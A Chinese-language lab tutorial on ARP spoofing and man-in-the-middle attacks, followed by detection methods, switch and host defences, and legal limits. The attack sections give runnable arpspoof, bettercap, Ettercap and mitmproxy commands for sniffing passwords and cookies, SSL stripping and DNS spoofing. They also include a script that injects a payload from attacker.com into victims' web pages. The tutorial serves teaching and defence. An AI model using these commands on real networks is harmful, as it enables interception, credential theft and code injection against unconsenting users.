



## 案例一：ARP欺骗攻击与中间人攻击

ARP欺骗（ARP Spoofing）是局域网攻击中最基础、最经典、也是危害最广泛的攻击技术之一。它利用ARP协议缺乏认证机制的设计缺陷，通过发送伪造的ARP报文篡改目标主机的ARP缓存表，将攻击者自身插入通信双方的数据链路中，形成中间人（Man-in-the-Middle, MITM）攻击位置。理解ARP欺骗不仅是学习网络攻击的起点，更是理解整个局域网安全模型的关键。

### 1.1 ARP协议原理与安全隐患

#### 1.1.1 ARP协议工作流程

ARP（Address Resolution Protocol，地址解析协议）工作在OSI模型的数据链路层（第二层），负责将网络层的IP地址解析为数据链路层的MAC地址。以太网帧在局域网内传输时，依靠MAC地址而非IP地址进行寻址，因此ARP是IP通信不可或缺的基础协议。

正常ARP通信流程如下：



ARP报文格式如下：

| 字段 | 长度 | 说明 |
|------|------|------|
| 硬件类型（Hardware Type） | 2字节 | 1表示以太网 |
| 协议类型（Protocol Type） | 2字节 | 0x0800表示IPv4 |
| 硬件地址长度 | 1字节 | 6（MAC地址长度） |
| 协议地址长度 | 1字节 | 4（IPv4地址长度） |
| 操作码（Opcode） | 2字节 | 1=ARP请求，2=ARP回复 |
| 发送方MAC | 6字节 | 发送方硬件地址 |
| 发送方IP | 4字节 | 发送方协议地址 |
| 目标MAC | 6字节 | 目标硬件地址（请求时为00:00:00:00:00:00） |
| 目标IP | 4字节 | 目标协议地址 |

#### 1.1.2 ARP协议的安全缺陷

ARP协议在设计之初（RFC 826, 1982年）并未考虑安全性，存在三个致命缺陷：

**缺陷一：无认证机制。** 主机收到ARP回复后，无论自己是否发送过ARP请求，都会无条件更新本地ARP缓存表。这意味着任何主机都可以主动发送ARP回复（Gratuitous ARP），声称某个IP地址对应自己的MAC地址，而接收方不会做任何验证。

**缺陷二：无状态验证。** ARP协议是无连接的，没有请求-响应的配对机制。攻击者可以凭空构造ARP回复报文，无需先捕获合法的ARP请求。

**缺陷三：缓存覆盖优先。** 后收到的ARP回复会覆盖先前的缓存条目。即使目标主机的ARP缓存中已有正确的IP-MAC映射，攻击者只需持续发送伪造ARP回复，就能反复覆盖真实映射。

这三个缺陷组合在一起，使得ARP欺骗成为局域网中最容易实施的攻击之一。

### 1.2 ARP欺骗攻击原理

#### 1.2.1 攻击模型

ARP欺骗的核心思想是：攻击者同时向目标主机和网关发送伪造的ARP回复，使双方都将攻击者的MAC地址误认为对方的MAC地址。攻击完成后，所有在目标主机和网关之间传输的数据都会经过攻击者的机器。



攻击者向目标机发送的伪造ARP回复内容为："网关192.168.1.1的MAC地址是攻击者的MAC地址"。同时向网关发送："目标机192.168.1.100的MAC地址是攻击者的MAC地址"。这样，双方都认为攻击者的MAC地址是对方的地址，所有数据帧都会被交换机转发到攻击者的端口。

#### 1.2.2 攻击条件

ARP欺骗要成功，需要满足以下条件：

- **同一广播域**：攻击者必须与目标机处于同一二层网络（同一VLAN、同一子网）。跨VLAN、跨子网的ARP欺骗无法直接实现。
- **交换网络环境**：在集线器（Hub）环境中不需要ARP欺骗，因为Hub本身就是广播转发；ARP欺骗主要针对交换机环境，目的是让交换机将目标帧转发到攻击者的端口。
- **目标未启用ARP防护**：如果目标启用了静态ARP绑定、DAI等防护措施，普通ARP欺骗将被检测或阻断。

### 1.3 实验环境搭建

#### 1.3.1 硬件与软件需求

本实验需要三台虚拟机，使用VirtualBox、VMware Workstation或Proxmox VE均可。推荐使用VirtualBox（免费且功能足够）。

| 角色 | 操作系统 | IP地址 | 用途 |
|------|----------|--------|------|
| 攻击机 | Kali Linux 2024+ | 192.168.1.10 | 发起ARP欺骗、流量嗅探 |
| 目标机 | Ubuntu 22.04 LTS 或 Windows 10 | 192.168.1.100 | 被攻击的受害者主机 |
| 网关 | 路由器或第三台Linux虚拟机 | 192.168.1.1 | 模拟网关/路由器 |

#### 1.3.2 网络配置

所有虚拟机必须在同一广播域内。推荐两种配置方式：

**方式一：桥接模式（Bridged）。** 将所有虚拟机的网络适配器设置为桥接模式，连接到物理网卡。虚拟机将从物理路由器获取IP地址，与物理网络处于同一广播域。此方式最接近真实环境，但需要物理网络支持。

**方式二：内部网络（Internal Network）。** 在VirtualBox中创建一个名为"lab-network"的内部网络，将三台虚拟机都连接到该网络。需要手动配置IP地址（不依赖DHCP），并用其中一台Linux虚拟机充当网关（开启IP转发并配置iptables NAT）。此方式完全隔离，适合纯实验环境。

使用内部网络时，充当网关的Linux虚拟机需要额外配置：

```bash
# 在网关虚拟机上执行
# 开启IP转发
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# 配置NAT，使内部网络可以访问外部（如果网关有第二个网卡连接外网）
sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
sudo iptables -A FORWARD -i eth0 -o eth1 -j ACCEPT
sudo iptables -A FORWARD -i eth1 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
```

#### 1.3.3 工具安装

在Kali Linux攻击机上安装所需工具：

```bash
# 更新包管理器
sudo apt update

# arpspoof（dsniff套件的一部分）
sudo apt install -y dsniff

# bettercap（现代中间人攻击框架）
sudo apt install -y bettercap

# Ettercap（经典中间人攻击工具）
sudo apt install -y ettercap-graphical

# Wireshark（图形化抓包工具）
sudo apt install -y wireshark

# tcpdump（命令行抓包工具，通常预装）
which tcpdump || sudo apt install -y tcpdump

# mitmproxy（HTTP/HTTPS中间人代理）
sudo apt install -y mitmproxy
```

验证安装：

```bash
arpspoof -h      # 应显示arpspoof用法
bettercap -h     # 应显示bettercap版本信息
ettercap -v      # 应显示Ettercap版本
tcpdump --version # 应显示tcpdump版本
```

#### 1.3.4 网络连通性验证

在开始攻击前，确保三台虚拟机网络互通：

```bash
# 在攻击机上
ping -c 3 192.168.1.100    # 应能ping通目标机
ping -c 3 192.168.1.1      # 应能ping通网关

# 查看攻击机自身的网卡名称和IP
ip addr show
# 确认网卡名称（可能是eth0、ens33、enp0s3等），后续命令中替换为实际名称
```

查看各主机的MAC地址并记录：

```bash
# 在攻击机上查看自身MAC
ip link show eth0 | grep ether

# 通过ARP查看网关的真实MAC
arp -a
# 或
ip neigh show 192.168.1.1
```

记下三台机器的MAC地址，这在后续验证攻击效果时至关重要：

- 攻击机MAC（例如 `08:00:27:AA:BB:CC`）
- 网关真实MAC（例如 `AA:BB:CC:DD:EE:FF`）
- 目标机MAC（例如 `08:00:27:XX:YY:ZZ`）

### 1.4 攻击步骤详解

#### 1.4.1 第一步：开启IP转发

在攻击机上开启内核级IP转发，这是ARP欺骗作为中间人正常工作的前提：

```bash
# 临时开启IP转发（重启后失效）
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# 验证是否生效
cat /proc/sys/net/ipv4/ip_forward
# 输出 1 表示已开启
```

**为什么必须开启IP转发？** 如果不开，攻击机收到转发给它的数据包后不会继续转发给真正的目的地，目标机的网络通信将直接中断。目标机会表现为"突然断网"，这会立即引起用户注意，攻击行为极易暴露。开启IP转发后，数据包到达攻击机后会被透明地转发到真实目的地，目标机用户完全无感知。

**持久化配置（可选）：** 如果需要重启后仍然生效：

```bash
echo "net.ipv4.ip_forward = 1" | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```

#### 1.4.2 第二步：查看攻击前的ARP缓存

在目标机上查看当前ARP缓存，记录攻击前的正常状态：

```bash
# Linux目标机
arp -a
# 或更现代的方式
ip neigh show

# Windows目标机
arp -a
```

正常输出示例：

```text
? (192.168.1.1) at AA:BB:CC:DD:EE:FF [ether] on eth0
```

这里 `AA:BB:CC:DD:EE:FF` 是网关的真实MAC地址。攻击成功后，这个MAC地址将被替换为攻击机的MAC地址。

#### 1.4.3 第三步：执行ARP欺骗

使用 `arpspoof` 工具实施双向ARP欺骗。**双向欺骗是必须的**——只欺骗一端会导致通信中断，暴露攻击。

**终端一：欺骗目标机（告诉目标机"网关的MAC是我的MAC"）**

```bash
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

参数说明：
- `-i eth0`：指定使用的网络接口（替换为你的实际网卡名）
- `-t 192.168.1.100`：目标主机IP（被欺骗的对象）
- `192.168.1.1`：要伪造的IP（告诉目标机，这个IP对应我的MAC）

执行后，arpspoof会每秒发送一次伪造的ARP回复：

```text
8:0:27:aa:bb:cc ff:ff:ff:ff:ff:ff 42: arp reply 192.168.1.1 is-at 8:0:27:aa:bb:cc
8:0:27:aa:bb:cc ff:ff:ff:ff:ff:ff 42: arp reply 192.168.1.1 is-at 8:0:27:aa:bb:cc
```

**终端二：欺骗网关（告诉网关"目标机的MAC是我的MAC"）**

```bash
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

两条命令必须同时运行。通常的做法是开两个终端窗口分别执行，或者使用 `&` 后台运行：

```bash
# 也可以用一条命令同时后台运行
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1 &
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100 &
```

#### 1.4.4 第四步：验证ARP欺骗效果

在目标机上再次查看ARP缓存：

```bash
# Linux目标机
arp -a
# 输出：? (192.168.1.1) at 08:00:27:AA:BB:CC [ether] on eth0
# ↑ 注意：MAC地址已经变成了攻击机的MAC地址

# 或使用 ip 命令查看更详细的信息
ip neigh show 192.168.1.1
# 输出：192.168.1.1 dev eth0 lladdr 08:00:27:aa:bb:cc STALE
```

同时在网关上也检查ARP缓存，确认目标机的MAC也已被篡改为攻击机的MAC。

**Wireshark辅助验证：** 在目标机上启动Wireshark，过滤 `arp` 协议，可以看到大量的ARP Reply包，源MAC是攻击机的MAC，但声称自己是网关的IP：

```text
No. Time    Source              Destination         Protocol Info
1   0.000   08:00:27:aa:bb:cc   Broadcast           ARP      192.168.1.1 is-at 08:00:27:aa:bb:cc
2   1.001   08:00:27:aa:bb:cc   Broadcast           ARP      192.168.1.1 is-at 08:00:27:aa:bb:cc
3   2.002   08:00:27:aa:bb:cc   Broadcast           ARP      192.168.1.1 is-at 08:00:27:aa:bb:cc
```

#### 1.4.5 第五步：嗅探通信内容

ARP欺骗完成后，攻击机已处于中间人位置，可以对流经的数据进行嗅探。

**方法一：tcpdump命令行抓包**

```bash
# 嗅探HTTP明文流量中的敏感信息
sudo tcpdump -i eth0 -A port 80 | grep -i "password\|login\|user\|cookie\|auth"

# 嗅探所有未加密的Web流量（完整HTTP请求和响应）
sudo tcpdump -i eth0 -A -s 0 port 80

# 嗅探DNS查询（可以知道目标机访问了哪些网站）
sudo tcpdump -i eth0 port 53

# 嗅探FTP流量（明文传输用户名和密码）
sudo tcpdump -i eth0 -A port 21

# 将抓包结果保存为pcap文件，后续用Wireshark分析
sudo tcpdump -i eth0 -w /tmp/capture.pcap port 80
```

**方法二：bettercap交互式攻击**

bettercap是现代中间人攻击框架，集成ARP欺骗、DNS欺骗、抓包、插件扩展等功能于一体：

```bash
# 启动bettercap
sudo bettercap -iface eth0

# 在bettercap交互界面中执行以下命令
# 设置攻击目标
> set arp.spoof.targets 192.168.1.100

# 开启ARP欺骗
> arp.spoof on

# 开启网络嗅探
> net.sniff on

# 查看捕获的凭据（如果有）
> events.stream off  # 关闭事件流以便查看输出
```

bettercap会自动处理双向ARP欺骗（同时欺骗目标机和网关），无需手动开两个终端。它还会自动解析HTTP、HTTPS证书、FTP、IMAP等协议中的凭据信息。

**方法三：Ettercap图形化攻击**

```bash
# 启动Ettercap图形界面
sudo ettercap -G
```

Ettercap的操作步骤：
1. 菜单 `Sniff` → `Unified sniffing` → 选择网卡 `eth0`
2. 菜单 `Hosts` → `Scan for hosts` 扫描局域网主机
3. 菜单 `Hosts` → `Host list` 查看发现的主机
4. 将目标机（192.168.1.100）添加到 Target 1，网关（192.168.1.1）添加到 Target 2
5. 菜单 `Mitm` → `Arp poisoning` → 勾选 `Sniff remote connections`
6. 菜单 `Start` → `Start sniffing` 开始攻击

**方法四：mitmproxy HTTP中间人代理**

```bash
# 启动mitmproxy（终端UI）
mitmproxy --mode transparent --listen-port 8080

# 配合iptables将流量重定向到mitmproxy
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

mitmproxy特别适合分析HTTP/HTTPS流量，它提供了交互式的Web界面，可以实时查看、修改、重放每一个HTTP请求和响应。

### 1.5 中间人攻击的进阶利用

ARP欺骗本身只是获取中间人位置的手段。真正的危害在于利用中间人位置实施的后续攻击。

#### 1.5.1 HTTP会话劫持

当目标机访问HTTP网站时，攻击者可以截获Cookie等会话标识，直接冒充用户身份：

```bash
# 使用bettercap自动提取Cookie
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.100; arp.spoof on; net.sniff on; set net.sniff.verbose true"
```

在抓包结果中搜索 `Cookie:` 头，将完整的Cookie值复制到攻击者浏览器中，即可直接登录目标用户的Web应用会话。

#### 1.5.2 SSL剥离攻击（SSL Strip）

SSL Strip（由Moxie Marlinspike在2009年BlackHat大会上提出）是一种将HTTPS连接降级为HTTP的攻击技术。攻击者利用中间人位置，拦截目标机发出的HTTPS请求，自己与目标服务器建立HTTPS连接，但与目标机之间维持HTTP明文连接。

```bash
# 使用bettercap的hstshijack模块实现SSL剥离
sudo bettercap -iface eth0
> set arp.spoof.targets 192.168.1.100
> set hstshijack.targets *
> arp.spoof on
> hstshijack on
> net.sniff on
```

**防御SSL Strip的唯一有效手段是HSTS（HTTP Strict Transport Security）。** 网站通过设置 `Strict-Transport-Security` 响应头，告诉浏览器在指定时间内只通过HTTPS连接，忽略任何HTTP降级尝试。

#### 1.5.3 DNS欺骗（配合ARP欺骗）

在中间人位置上，攻击者还可以实施DNS欺骗，将目标机对特定域名的DNS查询解析到攻击者控制的服务器：

```bash
# 使用bettercap进行DNS欺骗
sudo bettercap -iface eth0
> set arp.spoof.targets 192.168.1.100
> set dns.spoof.domains target-website.com
> set dns.spoof.address 192.168.1.10  # 攻击机IP
> arp.spoof on
> dns.spoof on
```

当目标机访问 `target-website.com` 时，DNS解析将返回攻击机的IP地址。攻击者可以在攻击机上搭建钓鱼网站，捕获用户的登录凭据。

#### 1.5.4 流量注入与代码注入

攻击者可以修改HTTP响应内容，在目标机访问的网页中注入恶意代码：

```bash
# 使用bettercap的HTML注入功能
sudo bettercap -iface eth0
> set arp.spoof.targets 192.168.1.100
> set http.proxy.script /path/to/inject.js  # 自定义注入脚本
> arp.spoof on
> http.proxy on
```

注入脚本示例（`inject.js`）：

```javascript
function onResponse(req, res) {
    if (res.ContentType.indexOf('text/html') === 0) {
        var body = res.ReadBody();
        // 在页面末尾注入JavaScript
        body = body.replace('</body>', '<script src="http://attacker.com/beef.js"></script></body>');
        res.Body = body;
    }
}
```

这种方式可以配合BeEF（Browser Exploitation Framework）实现浏览器级别的持久化控制。

### 1.6 检测ARP欺骗的方法

#### 1.6.1 手动检测

**方法一：观察ARP缓存异常**

```bash
# Linux - 检查是否有多个IP映射到同一个MAC
arp -a | awk '{print $4}' | sort | uniq -d
# 如果有输出，说明多个IP共享同一个MAC，可能是ARP欺骗

# 检查网关MAC是否发生变化
arp -a | grep 192.168.1.1
# 记录MAC地址，过一段时间再检查，如果频繁变化则可能被攻击

# Windows - 类似检查
arp -a | findstr "192.168.1.1"
```

**方法二：使用Wireshark检测ARP异常**

在Wireshark中使用ARP过滤器，关注以下异常模式：
- 短时间内同一IP地址对应多个不同的MAC地址（ARP缓存翻转）
- 大量未经请求的ARP Reply（Gratuitous ARP）
- 同一MAC地址声称拥有多个不同的IP地址

Wireshark过滤器：
```text
arp && arp.opcode == 2
# 显示所有ARP Reply包，观察是否有异常
```

**方法三：对比交换机MAC表与ARP表**

如果有交换机管理权限，可以对比交换机的MAC地址表（CAM表）和各主机的ARP缓存：

```bash
# 在Cisco交换机上
show mac address-table
show arp

# 检查网关IP对应的MAC在交换机上对应哪个端口
# 如果该MAC对应的端口不是网关所在端口，则说明存在ARP欺骗
```

#### 1.6.2 自动化检测工具

**arpwatch**

arpwatch是经典的ARP监控工具，当检测到ARP缓存变化时会发送邮件告警：

```bash
# 安装
sudo apt install -y arpwatch

# 启动监控（指定网卡）
sudo arpwatch -i eth0

# 查看arpwatch日志
tail -f /var/log/syslog | grep arpwatch
```

arpwatch会记录所有IP-MAC映射的变化。当检测到新的映射关系时，会在syslog中记录类似信息：

```text
arpwatch: changed ethernet address 192.168.1.1 AA:BB:CC:DD:EE:FF (08:00:27:AA:BB:CC)
# ↑ 网关IP的MAC地址从真实MAC变成了攻击机的MAC
```

**XArp**

XArp是Windows平台上的ARP欺骗检测工具，提供图形界面，实时显示ARP缓存状态并标记可疑条目。

**自定义检测脚本**

```bash
#!/bin/bash
# arp_monitor.sh - 持续监控网关MAC是否变化
GATEWAY_IP="192.168.1.1"
KNOWN_MAC="AA:BB:CC:DD:EE:FF"  # 网关的真实MAC地址

while true; do
    CURRENT_MAC=$(arp -a | grep "$GATEWAY_IP" | awk '{print $4}')
    if [ "$CURRENT_MAC" != "$KNOWN_MAC" ]; then
        echo "[ALERT] $(date): ARP spoofing detected!"
        echo "  Gateway $GATEWAY_IP MAC changed from $KNOWN_MAC to $CURRENT_MAC"
        # 可以在此处发送告警通知
    fi
    sleep 5
done
```

### 1.7 防御ARP欺骗的完整方案

#### 1.7.1 终端层面防御

**静态ARP绑定**

手动在关键设备上绑定IP-MAC映射，使ARP缓存条目变为静态（不会被ARP Reply覆盖）：

```bash
# Linux - 静态绑定网关MAC
sudo arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF

# 使用ip命令（推荐，更现代）
sudo ip neigh replace 192.168.1.1 lladdr AA:BB:CC:DD:EE:FF nud permanent dev eth0

# Windows（管理员CMD）
netsh interface ipv4 add neighbors "以太网" 192.168.1.1 AA-BB-CC-DD-EE-FF

# macOS
sudo arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF
```

**持久化静态ARP绑定：**

```bash
# Linux - 写入网络配置文件
# 对于使用netplan的Ubuntu 18.04+
# 编辑 /etc/netplan/01-netcfg.yaml
# 不直接支持静态ARP，需要通过post-up脚本实现

# 写入 /etc/network/if-up.d/arp-bind（创建脚本文件）
cat << 'EOF' | sudo tee /etc/network/if-up.d/arp-bind
#!/bin/bash
if [ "$IFACE" = "eth0" ]; then
    arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF
fi
EOF
sudo chmod +x /etc/network/if-up.d/arp-bind
```

静态ARP绑定的局限性：需要手动维护，当网关设备更换或MAC地址变化时需要手动更新；在大规模网络中管理成本极高。

#### 1.7.2 网络设备层面防御

**DAI（Dynamic ARP Inspection，动态ARP检测）**

DAI是交换机级别的ARP防护功能，工作原理是基于DHCP Snooping绑定表验证ARP报文的合法性。当交换机收到ARP报文时，会检查报文中的IP-MAC映射是否与DHCP Snooping表中记录的一致，不一致的ARP报文将被丢弃。

Cisco交换机配置示例：

```text
! 全局启用DHCP Snooping
ip dhcp snooping
ip dhcp snooping vlan 10

! 在连接DHCP服务器的端口上设置为信任
interface GigabitEthernet0/1
  ip dhcp snooping trust

! 在其他接入端口上启用DAI
interface range GigabitEthernet0/2-24
  ip arp inspection limit rate 15  ! 限制ARP报文速率，防止ARP洪泛

! 在VLAN上启用DAI
ip arp inspection vlan 10

! 在连接网关/路由器的端口上设置为ARP信任
interface GigabitEthernet0/1
  ip arp inspection trust
```

**端口安全（Port Security）**

限制每个交换机端口只能使用特定数量的MAC地址，防止攻击者通过ARP欺骗接收到其他主机的流量：

```text
interface GigabitEthernet0/2
  switchport mode access
  switchport port-security
  switchport port-security maximum 2  ! 最多允许2个MAC地址
  switchport port-security violation shutdown  ! 违规则关闭端口
  switchport port-security mac-address sticky  ! 自动学习并绑定MAC
```

**Private VLAN**

通过Private VLAN隔离同一子网内的主机，使它们之间的通信必须经过网关，从而限制ARP欺骗的横向传播范围。

#### 1.7.3 应用层面防御

**使用加密通信**

这是防御ARP欺骗最根本的手段。即使ARP欺骗成功，攻击者截获的也是加密数据，无法读取明文内容：

- **HTTPS**：Web通信使用HTTPS（TLS 1.3），攻击者无法解密HTTP流量
- **SSH**：远程管理使用SSH替代Telnet
- **SFTP/SCP**：文件传输使用SFTP替代FTP
- **VPN**：在不可信网络中使用VPN加密所有流量

需要特别注意的是，单纯的HTTPS不能防御所有中间人攻击。攻击者可以实施SSL剥离（见1.5.2节），或者使用自签名证书进行中间人代理。用户需要：
- 确认浏览器地址栏显示HTTPS锁标志
- 注意浏览器的证书警告，不要轻易忽略
- 网站运营者应启用HSTS并加入HSTS Preload列表

**802.1X网络准入控制**

802.1X要求每台设备在接入网络前必须进行身份认证（通常使用证书或用户名/密码）。未通过认证的设备无法访问网络，从源头上阻止了攻击者接入局域网。

### 1.8 常见错误与排查

#### 1.8.1 攻击后目标机断网

**原因一：** 忘记开启IP转发。攻击机收到目标机的流量后不转发，目标机无法与网关通信。

**解决：** 确认 `cat /proc/sys/net/ipv4/ip_forward` 输出为 `1`。

**原因二：** 只执行了单向ARP欺骗（只欺骗了目标机，没有欺骗网关）。

**解决：** 必须同时运行两条arpspoof命令，分别欺骗目标机和网关。

**原因三：** 网卡名称错误。Linux系统中网卡名称可能是 `ens33`、`enp0s3` 等，而不是 `eth0`。

**解决：** 使用 `ip addr show` 确认实际网卡名称。

#### 1.8.2 攻击效果不持续

**原因：** ARP缓存条目有过期时间。当伪造的ARP Reply停止发送后，目标机的ARP缓存会逐渐恢复到真实映射。arpspoof默认每秒发送一次伪造Reply，如果进程意外退出，效果会在ARP缓存过期后消失。

**解决：** 确保arpspoof进程持续运行。使用bettercap或Ettercap等工具时，它们内置了持续发送机制。

#### 1.8.3 抓包看不到明文内容

**原因：** 目标网站使用了HTTPS加密，抓包只能看到加密数据。

**解决：** 这是HTTPS的正常防护效果。如果要分析HTTPS流量，需要配合SSL Strip攻击或使用mitmproxy进行HTTPS中间人代理（需要目标机信任mitmproxy的CA证书）。

#### 1.8.4 在虚拟机中ARP欺骗无效

**原因：** 部分虚拟化平台（如VirtualBox的NAT网络模式）不支持ARP欺骗，因为虚拟网络交换机可能会过滤ARP Reply。

**解决：** 使用桥接模式或内部网络模式，确保虚拟机之间有真正的二层网络连通。

### 1.9 法律与伦理边界

ARP欺骗及中间人攻击技术仅可用于以下合法场景：

- **授权渗透测试**：在获得书面授权的情况下，对目标网络进行安全评估
- **自有网络实验**：在自己搭建的隔离实验环境中学习和验证
- **安全研究**：在合法范围内研究网络安全技术

未经授权对他人网络实施ARP欺骗属于违法行为。在中国，《网络安全法》第二十七条明确规定：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动。违法者可能面临行政处罚或刑事责任。

**关键原则：永远只在你拥有或获得明确书面授权的网络环境中进行测试。**

### 1.10 攻击流程总结



ARP欺骗之所以至今仍是网络安全领域的核心课题，不是因为它技术复杂——恰恰相反，它极其简单。正因其简单、易用、高效，几乎任何接入局域网的恶意设备都可以在几秒内发起攻击。防御ARP欺骗需要终端绑定、交换机DAI、加密通信、网络准入控制等多层手段的组合部署，任何单一措施都不足以完全消除风险。理解攻击原理是构建有效防御体系的第一步。
